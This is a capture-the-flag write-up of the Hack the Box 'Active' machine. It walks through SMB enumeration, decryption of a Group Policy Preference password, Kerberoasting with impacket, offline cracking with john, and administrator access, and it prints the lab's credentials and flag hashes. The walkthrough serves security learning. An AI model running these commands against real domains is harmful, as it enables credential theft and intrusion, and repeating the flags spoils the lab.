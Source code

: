 ```yaml
---
title: Active - Hack the Box
date: "2024-10-12 00:00:00 +0800
categories: [Hack the Box]
tags: [Active Directory]
---
```


![Desktop View](/assets/Active.png){: width="972" height="589" }

Active is a machine to learn about the enumeration of services in an AD environment. Attackers will need to leverage understandings of ports and services, SMB configurations, Group Policy Preference (GPP), hash cracking, and kerberoasting. Without further ado, let's get into it.

### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 20:53 EDT
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-11 00:54:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-11T00:55:13
|_  start_date: 2024-09-11T00:51:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.17 seconds

```

Our TCP and UDP port scan didn't finish before we had achieved root, so I'll leave those scans out. Do remember, it is extremely important to cover all bases in the enumeration phase of our reconnaissance and scanning. 

We've got quite a lot going on here, and I'd like to go through these ports and their importance within the context of Active Directory. `88` is the one that catches my eye, because it is occupied by the `Kerberos` service which is used to authenticate Users to the Domain Controller. `139` and `445` are associated with the `SMB` (Server Messaging Block) service, and we can usually enumerate these services for information of files.`389` and `3268` are for the `LDAP` services, and `MSRPC` allows the hosts to talk to each other. 

### Enumeration

We've got a Windows 2008 Server acting as our Domain Controller. We get the name of the machine too, so add it to `/etc/hosts` The normal vector here is to use the DNS Resolver to get our hostname `active.htb` and try to exploit through a web-based attack vector. We can use commands such as like `host -l`, `dig`, and `nslookup`. These are dead-ends, though, and we need to start moving on to other options.

In order to interact with SMB shares, we can use tools like `smbclient` and `smbmap`. The latter allows us to enumerate the SMB shares to get information about files, share, and directories. The former allows us to interact with and connect to actual shares as well as transfer files. 

Using the scan `smbmap -H active.htb`, we get access to see some shares:

![[Screenshot 2024-09-10 at 9.49.47 PM.png]]

We've got access to only one share, so lets enumerate a bit more. We can connect via SMB to the machine using the syntax below, and the `-N` parameter suppresses the password because we're trying for an anonymous logon.

`smbclient //active.htb/Replication -N`

### Initial Access

Once we're connected, we can browse around using `cd` and whatnot, while `get` and `more` give us information about files. Just like when fuzzing web directories, there are key items and things to look for in shares as well. Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as `cpassword`. These are extremely helpful when looking for initial footholds.

![[Screenshot 2024-09-10 at 10.06.08 PM.png]]

When we open the file with `more`, or transfer it with `get`, we'll see that there are credentials here.

![[Screenshot 2024-09-10 at 10.08.42 PM.png]]

Because we know the encryption method, and the key's been published before in a MSFT leak, we've got tools to decrypt. One of them is called `gpp-decrypt`.

`gpp-decrypt [ENCRYPTED PASS]`

When we do this, we're able to get our password.

 `GPPstillStandingStrong2k18`

An important concept when enumerating on Active Directory machines is to spray credentials whenever and wherever you can, as they're often reused. We can now go use `smbclient` to log in with credentials.

`smbclient -W active.htb -U SVC_TGS //active.htb/USERS`

Once in, we can navigate to the user's directory and desktop for our flag.

![[Screenshot 2024-09-10 at 10.20.51 PM.png]]

`USER:77d587ba5436a9188f242c777ce6fd17`

### Privilege Escalation

A very useful and common vector for escalating privileges in this environment is by abusing the AD authentication service known as Kerberos. The diagram below illustrates how the protocol works.

![[Screenshot 2024-09-11 at 9.27.35 AM.png]]

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

A tool called `impacket` is vital for us in this process, and it can be installed with a `git` repository, and installed with `python setup.py install` once in the downloaded directory. `GetUserSPNs.py` is a great script that enumerates SPNs for us, and the command to use it is below. (It sit in `/examples/` directory)

`./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request`

![[Screenshot 2024-09-10 at 11.02.19 PM.png]]

We get the TGS for users in a useful JtR/Hashcat format that we can use to brute-force offline. It's important to export these results to a file for ease of use, and additionally, if the hash or list is going to create a computationally intensive process, run the process on metal. VM is no good here. 

If you receive an error, “Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

We can take our TGS and use any cracking tool like `john` or `hashcat` and crack!

`john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt`

![[Screenshot 2024-09-10 at 11.13.12 PM.png]]

We got a password! 

Now, remember what I said. We've got a login, enumerate once again. `smbmap` is great for this to re-assess where we are.

`smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968`

We're looking for access to any important drive or directory. In this case, we've got access to $C drive! All we need to do is connect via `smbclient` with our credentials, and grab our flag.

`smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968`

`more \users\administrator\desktop\root.txt`

![[Screenshot 2024-09-10 at 11.18.00 PM.png]]

`ROOT:3dfddeb6977b22a2d47e8dc8346cbda1`

#windows #manual #easy 
